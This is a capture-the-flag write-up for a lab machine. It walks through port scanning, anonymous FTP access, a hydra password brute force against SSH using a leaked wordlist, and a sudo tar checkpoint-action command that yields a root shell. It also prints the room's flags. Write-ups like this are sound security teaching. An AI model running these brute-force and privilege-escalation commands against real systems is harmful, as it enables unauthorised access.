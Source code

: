 ### IP
`10.10.207.236`

# Enumeration

### nmap
`nmap -sC -sV 10.10.207.236 -o BountyHacker.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 23:53 EST
Nmap scan report for 10.10.207.236
Host is up (0.17s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```
* Easy stuff first... Let's take a look at the website at port 80
	* Looks like its just a text page. I'll run nikto on it just in case.
* What's more interesting is ftp, because anonymous login is allows
	* Let's try that:

# Exploitation

### ftp login
`ssh 10.10.207.236 21`
* Type in `anonymous` for the username and press enter for the password
* Let's see whats on this thing... `ls`
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
226 Directory send OK.
```
* We can download those by typing `get locks.txt` and `task.txt`


* `locks.txt` :
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
* Now what could we do with this? 
	* Perhaps its a list for something relating to the ssh client?


* `task.txt` :
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
* Okay... It looks like `lin` wrote the task


### ssh
* Now, we need to figure out how to login to this
* We can reasonably guess that the ssh username is `lin`
	* Maybe locks.txt is a possible list of passwords?

* Let's use hydra to run a dictionary attack:
* `hydra -l "lin" -P locks.txt ssh://10.10.207.236 -t 4`
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 00:07:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.207.236:22/
[22][ssh] host: 10.10.207.236   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 00:08:07
```
* Success! Looks like the password is `RedDr4gonSynd1cat3`

* Let's log in now: `ssh lin@10.10.207.236 -p 22`
	* Input the password when asked: `RedDr4gonSynd1cat3`

* When we `ls` we see a `users.txt` file.
* Catting it gives us `THM{CR1M3_SyNd1C4T3}`

* Now we need to get access to root
* I tried `sudo cd /root/` with the same password as lin, but with no success

### privelege escalation

* Let's do some quick recon on the system we're on:
* `cat /etc/os-release`
```
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

* `cat /proc/version`
```
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-052) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020
```

* Let's look online to see if xenial 16.04 has any privesc vulns
* `searchsploit openssh` returns some results
* One interesting one is `linux/local/40962.txt`
	* Let's view the file...

```
...
sing "ssh -L", an attacker who is permitted to log in as a
normal user over SSH can effectively connect to non-abstract unix domain sockets
with root privileges
...
Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40962.zip

```

* Very interesting... Let's download the exploit and try to run it

* Imma be honest.. loads of stuff happened here with no success
* A typical Linux privilege Escalation method is based on checking one of the following: (Quote from [this](https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/dev0ops.md) writeup)
```
Exploiting services running as root
Exploiting SUID executables
Exploiting SUDO rights/user
Exploiting badly configured cron jobs
Exploiting users with "." in their path
Kernel Exploits
```
* I eventually had some success with exploting sudo rights:
* `sudo -l` with `lin`'s password shows which commands each of the users can execute with sudo
	* turns out lin can execute tar as sudo... we can exploit that
* I looked up `linux tar privesc` and found [this](https://gtfobins.github.io/gtfobins/tar/)
* It says the following command lets us "spawn an interactive system shell"
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
* running this as sudo and typing in `lin`'s password gives us a root shell
* `ls /root/` shows us a file called `root.txt`
* `cat /root/root.txt` gives us the root flag: `THM{80UN7Y_h4cK3r}`


